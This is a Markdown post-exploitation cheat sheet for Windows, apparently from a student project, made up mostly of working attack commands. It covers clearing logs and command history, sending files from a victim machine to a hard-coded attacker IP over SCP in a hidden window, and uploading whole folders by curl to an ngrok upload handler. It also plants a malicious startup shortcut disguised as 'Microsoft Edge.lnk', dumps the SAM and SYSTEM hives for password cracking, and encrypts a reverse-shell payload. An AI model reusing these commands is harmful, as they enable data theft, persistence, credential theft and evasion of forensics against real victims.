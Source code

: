 # Clear logs

1. Delete winrun history

   ```powershell
   Remove-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Recurse
   ```

2. List powershell command history

   ```powershell
   rm (Get-PSReadlineOption).HistorySavePath
   ```

3. Clear PowerShell events log (**Administrator only**)

   ```powershell
   clear-eventlog -logname "Windows PowerShell"
   ```

   

# Files exfiltration

### Method 1 - Using SCP

> For example, Hacker's SSH server is **43.56.175.249:55522**

On hacker's SSH server:

```bash
# Open simple python http server on hacker's host
cd ~/.ssh
python3 -m http.server 8880
```

On victim, download and configure private-key:

```bash
# Get private key from hacker's server
curl -o "$home\id_rsa" http://43.56.175.249:8880/id_rsa

# Configure permission
icacls "$home\id_rsa" /inheritance:r; icacls "$home\id_rsa" /grant:r ($(whoami) + ':R')
```

Exploit:

```powershell
# Open new process to send files
Start-Process powershell -windowstyle hidden {scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r "<Full path to folder>/*.docx" lamnc2@43.56.175.249:/home/lamnc2/data_exfil}
```



Copy file from SSH server to local machine:

```bash
scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r lamnc2@43.56.175.249:/home/lamnc2/data_exfil "I:\Temp_safe_to_delete\tmp"
```



### Method 2 - Using Curl

```powershell
# set $folder = folder to upload file
# set $upload_handler = url to upload handler on server
# powershell cmd: IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/[link to this file])
$folder = 'I:\Personal\';
$upload_handler ='http://bc416b4d16e3.ngrok.io/upload_handler.php';
$name = [uri]::EscapeDataString((whoami));
$a = ''; (Get-ChildItem $folder -Filter '*' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "});
$eval = "curl.exe $a $upload_handler`?folder=$name";
IEX $eval;
```

#### one-line

```powershell
$folder = 'F:\IAR401\';  $upload_handler='http://bc416b4d16e3.ngrok.io/upload_handler.php'; $name = 'hi'; $a = ''; (Get-ChildItem $folder -Filter '*.docx' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "}); $eval = "curl.exe $a $upload_handler`?folder=$name";IEX $eval;
```



# Startup shortcut to perform scripts

### Idea

Store a malicious shortcut in startup folder. 

- startup folder (for current user) `C:\Users\<current user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` = `$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- startup folder (for public user)



### Create malicious shortcut

![image-20201102112123102](I:\Personal\PowerShell scripts images\image-20201102112123102.png)



### Procedure

1. change dir to startup folder: `cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"`

2. download malicious shortcut using 

   1. **Cmd**:

      `curl -L https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk` 

      - `-L`: follow redirection

   2. **Powershell**:

      `curl https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk`

   

#### **One-line command**

```bash
cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"; curl -o "Microsoft Edge.lnk" https://github.com/lamthanhnam/public/raw/master/start_up/hi.lnk
```





# Get SAM and SYSTEM file for password decryption

```powershell
reg save hklm\sam $env:PUBLIC\Documents\hi_sam
reg save hklm\system $env:PUBLIC\Documents\hi_system
```





# Symmetric Encryption

Apply symmetric encryption to encrypt payload

```powershell
# Use with one-line command only
# Initial vars
$PayloadPath = "$pwd\rs_pay_final"
# $key = "1234567890123456" #<16, 24, 32 chars>
# $skey = [byte[]]("$key").ToCharArray()
$skey = (1..16)

# create secure string
$content = cat $PayloadPath

#---------- Encrypt -------------
$ss = ConvertTo-SecureString -String "$content" -Force -AsPlainText
$cipher = ConvertFrom-SecureString -SecureString $ss -Key $skey #Converts a secure string to an encrypted standard string

#----------- Decrypt -------------
# Apply to: https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.securestringtobstr?view=netcore-3.1#moniker-applies-to
# Ref: https://stackoverflow.com/a/28353003

# ----- Prepare variable for decrypt
$cipher = "..."
$skey = [byte[]]
$ss = ConvertTo-SecureString -String $cipher -Key $skey #Converts an encrypted standard string to a secure string

# ----- DECRYPT METHOD 1
Function ConvertTo-UnsecureString {
   Param (
       [System.Security.SecureString]$ss
   )
   Try { # main decode function
       $ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToGlobalAllocUnicode($ss)
       [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)
   }
   Finally {
       [System.Runtime.InteropServices.Marshal]::ZeroFreeGlobalAllocUnicode($ptr)
   }
}
$plain = ConvertTo-UnsecureString $ss

# ----- DECRYPT METHOD 2
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($ss)
$plain = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

echo $plain

# ---------- Print output -------------------
Write-Host -NoNewline "$cipher"
#-------------- Write encrypted payload to file -------
Out-File -FilePath .\encrypted_rs_pay -InputObject "$func`n$cipher" -Encoding ASCII
Out-File -FilePath "$pwd\encrypted_payload" -InputObject "$cipher" -Encoding ASCII -NoNewline ;
```


